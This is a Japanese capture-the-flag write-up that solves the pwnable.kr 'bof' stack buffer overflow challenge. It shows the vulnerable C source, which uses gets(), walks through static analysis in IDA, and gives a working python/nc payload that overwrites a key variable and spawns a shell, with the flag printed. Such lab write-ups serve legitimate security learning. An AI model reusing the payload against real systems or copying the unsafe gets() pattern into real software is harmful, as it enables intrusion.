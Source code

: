 # 内容
buffer overflowの問題。動的解析と静的解析があるが、今回は静的解析を行う。
理由は、私の環境だと、32bitのgdbが使えないから。どうも、winndowsのWLSは64bitしか対応して無いみたい。
以下stackoverflowに質問している記事があったので、載せる

[Run 32-bit application on Ubuntu on Windows subsystem for Linux](https://superuser.com/questions/1407730/run-32-bit-application-on-ubuntu-on-windows-subsystem-for-linux)

では、初めに、問題のプログラムを実行してみる
何か文字を入力すると、”overflow me”と言って終了する模様。

```bash
$ nc pwnable.kr 9000
ttttttttttttttttttttttttttttt
overflow me :
Nah..
```

## buf.c
実際のプログラムを見てみる。
get(overflow)でユーザーが文字の文字入力を受け付けている。
しかし、その次の行でif文ではoverflowの文字が使われていないので、systemコールを呼ぶことが出来ない。
そのため、overflow変数をバッファーをオーバーフローさせて、変数keyの値を変更しなくてはならない。

```c
include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

# 静的解析
静的解析ではida, ghidra, objdump等がある。今回はidaを使用する。

idaを開いたら、まず見るべきはfunction windowのなかのmain

![main_ida](bof_main_1.png)

これだけだと、初心者の私はわからないので、ソースコードと照らし合わせてみる。
とりあえず、関数を実行している箇所は判明した。
スタックの積み方は基本以下のような形なのだが、直接espのポインタに値を代入している。
コンパイラによってはこんな出力をはくみたいだが、リバースエンジニアリング初心者の私にとっては読みにくい。

```assembly
push 0DEADBEEFh
```

![main_ida_2](bof_main_2.png)


次に、func関数を見てみる。

![func_ida1](bof_func_1.png)
![func_ida2](bof_func_2.png)

* カナリアと言うのはc言語におけるバッファーオバーフローの検地用バイトらしい。gccでコンパイルするときにオプションを指定すると入る。
* この検地バイトはfunc関数が終わった後に実行されるため、今回のようにfunc関数内でsysytemコールを行っている場合は問題ない。
* カナリアを回避する方法もあるらしい（余り調べてないのでわからないです）。

これらのことから、アドレスの配置は以下のようになると考えられる。
![func_ida3](bof_func_3.png)

よって、overflowから52文字適当な値を入れて、そのあと、if文にハードコーティングされている１６進数の値を入力すれば、うまくいくことになる。

# 結果
* x86なので、入力する値はリトルエンディアンになる
```bash
$ (python -c 'print("A"*52 + "\xbe\xba\xfe\xca") ' ; cat ) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
^C
```
フラグゲット。

## 補足
エクスプロイトでcatコマンドを入れている理由は、shellをとっても文字が出力されなかったため。
catにこのような使い方があることを初めて知った。
これを理解するにはpstreeを見るとよい。
pstreeでは、catが入力の待ち状態になって、
* うまくコピペできなかったので、少し手を加えている。
```bash
init----init----bash---pstree
     |
     |----init----bash----bash----cat
                   |----nc
```

